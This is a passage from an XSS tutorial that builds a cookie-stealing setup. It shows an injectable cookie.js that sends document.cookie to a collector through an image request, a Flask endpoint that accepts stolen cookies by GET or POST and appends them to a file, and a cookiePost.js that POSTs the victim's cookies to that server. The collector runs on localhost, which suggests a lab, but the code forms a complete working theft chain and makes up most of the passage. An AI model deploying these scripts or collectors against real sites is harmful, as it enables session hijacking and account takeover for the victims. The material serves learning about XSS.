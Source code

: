 <br>
The new cookie.js we can inject would be like:
```
var i=new Image;
i.src="http://127.0.0.1:5000/saveGetCookie?a="+document.cookie;
```
<br>
![](/img/XSSBasic/savedCookie.PNG)

<h2>Upgrade the server</h2>
So now we have a basic server that works. We can save the contents of the HTTP GET requests into a file and then extract some data. At the beginning of the module we created a cookie stealer that sends a post request. We should upgrade our server to save that too.
<br>

```
from flask import Flask
from flask import request

app = Flask(__name__)

@app.route("/saveCookie", methods=['POST', 'GET'])
def saveGetCookie():
    cookie = ""
    if request.method == 'GET':
        cookie = request.args.get("a")
    else:
        print(request.form["a"])
        cookie = request.form["a"]
    f = open("savedCookies.txt", "a")
    f.write(cookie)
    f.write("\n")
    f.close()
```
So what happened here? The endpoint name changed, because it is not just GET request that gets saved from now on. Then we added POST to the parameters too. Then we check if the incoming request is GET, if yes, we proceed as we did. If the request is POST, we will use the form value of the request. That is a multidict and from that we grab the parameter 'a'. So the incoming post request body will look like something along the line:
<br>
```
a=cookiesandvalues
```
<br>
We will be retrieving cookies and values and put it in the variable cookie. After that no matter where the request came from, we save the result in the file. Then we add a new line character just to keep things a little more clear.
We also had to upgrade the cookiePost.js script. We added the parameter in the body, we set the content type to application/x-www-form-urlencoded so that the request.form can parse it without issue. This can be achieved by using the setRequestHeader() function.
<br>
The final result is as seen below.
cookiePost.js
<br>
```
var url = "http://127.0.0.1:5000/saveCookie";
var body = "a=" + document.cookie;
xr = new XMLHttpRequest();
xr.open("POST", url, true);
xr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded")
xr.send(body);
```